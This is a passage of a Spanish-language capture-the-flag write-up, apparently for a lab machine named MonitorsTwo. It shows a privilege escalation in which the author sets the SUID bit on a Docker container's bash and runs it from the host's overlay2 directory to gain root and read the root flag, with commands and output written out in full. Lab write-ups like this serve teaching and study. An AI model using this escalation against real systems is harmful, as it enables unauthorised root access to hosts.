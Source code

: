 ```bash
automation_devices.php      cli                        data_sources.php           graph_templates_inputs.php  lib                 poller_automation.php   remote_agent.php      snmpagent_mibcachechild.php
automation_graph_rules.php  clog.php                   data_templates.php         graph_templates_items.php   LICENSE             poller_boost.php        reports_admin.php     snmpagent_mibcache.php
automation_networks.php     clog_user.php              docs                       graph_templates.php         link.php            poller_commands.php     reports_user.php      snmpagent_persist.php
automation_snmp.php         cmd.php                    formats                    graph_view.php              links.php           poller_dsstats.php      resource              spikekill.php
automation_templates.php    cmd_realtime.php           gprint_presets.php         graph_xport.php             locales             poller_maintenance.php  rra                   templates_export.php
marcus@monitorstwo:/var/lib/docker$ 
```

Probaremos de verificar si la vulnerabilidad está presente, crearemos un nuevo archivo `gzzcoo.txt` en el directorio `/tmp` del contenedor de Docker. Al crear dicho archivo, verificamos que posteriormente lo podemos visualizar accediendo a él.

```bash
marcus@monitorstwo:/var/lib/docker$ echo 'gzzcoo' > /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/gzzcoo.txt
marcus@monitorstwo:/var/lib/docker$ cat /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/gzzcoo.txt
gzzcoo
```

Por lo tanto, para poder aprovecharnos de esta vulnerabilidad, lo que realizaremos es darle permisos de `SUID` al binario `/bin/bash` del contenedor de Dcoker el cual obtuvims anteriormente acceso como `root`.

```bash
root@50bca5e748b0:/# ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
root@50bca5e748b0:/# chmod u+s /bin/bash
root@50bca5e748b0:/# ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Una vez asignado los permisos correspondientes, ejecutaremos el `/bin/bash` accediendo directamente desde `/var/lib/docker/overlay2`. Verificamos que finalmente nos hemos convertido en usuario `root` en el equipo objetivo y no en el de Docker.

Logramos obtener finalmente la flag de **root.txt**.

```bash
marcus@monitorstwo:/var/lib/docker$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# hostname -I
10.10.11.211 172.17.0.1 172.18.0.1 172.19.0.1 dead:beef::250:56ff:fe94:bcf5 
bash-5.1# cat /root/root.txt 
cb9953909ed0000000000000000000000
```
